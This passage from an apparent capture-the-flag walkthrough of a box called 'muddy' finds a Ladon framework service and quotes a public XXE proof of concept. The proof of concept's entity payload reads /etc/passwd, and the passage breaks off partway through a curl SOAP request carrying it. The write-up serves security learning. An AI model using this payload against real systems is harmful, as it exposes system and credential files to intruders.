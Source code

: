 Visiting `/webdav` required credentials:

<figure><img src="../../../.gitbook/assets/image (1381).png" alt=""><figcaption></figcaption></figure>

Weak credentials don't work, so let's come back to this later. Port 8888 hosted Ladon Service Catalog:

<figure><img src="../../../.gitbook/assets/image (1420).png" alt=""><figcaption></figcaption></figure>

There are exploits for this:

```
$ searchsploit ladon
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Ladon Framework for Python 0.9.40 - XML External Entity Ex | xml/webapps/43113.txt
----------------------------------------------------------- ---------------------------------
```

Within the proof of concept code, there's a hint towards this box!

```
------------------------------------------------------------------------
<?xml version="1.0"?>
<!DOCTYPE uid [
    <!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
------------------------------------------------------------------------

The following command exploits this vulnerability by including the &passwd;
entity as the username in the request:

------------------------------------------------------------------------
curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:helloService\"><soapenv:Header/>
```